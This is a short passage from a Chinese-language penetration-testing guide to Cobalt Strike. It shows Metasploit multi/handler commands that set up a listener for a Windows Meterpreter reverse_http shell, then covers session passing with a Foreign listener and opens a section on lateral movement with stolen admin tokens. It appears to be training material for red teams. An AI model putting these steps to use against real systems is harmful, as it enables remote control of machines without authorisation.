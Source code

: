 然后 CS 里面配置监听相应 lhost lport 即可

**CS 转 MSF**

CS 转 MSF 只需要用到 spawn 功能

MSF 开启监听
```bash
msf > sessions -l
msf > use exploit/multi/handler
msf exploit(multi/handler) > set set payload windows/meterpreter/reverse_http
msf exploit(multi/handler) > set lhost [host]
msf exploit(multi/handler) > set lport [port]
msf exploit(multi/handler) > exploit
```

目标右键 -> spawn , 添加一个 Foreign 的监听器,在点 choose 弹到 msf

![](../../../assets/img/Security/安全工具/CobaltStrike/8.png)

![](../../../assets/img/Security/安全工具/CobaltStrike/9.png)

---

## 横向

一旦你有了域管理员或者是目标机器上的本地管理员域用户的令牌，你可以通过滥用这种信任关系来控制目标。
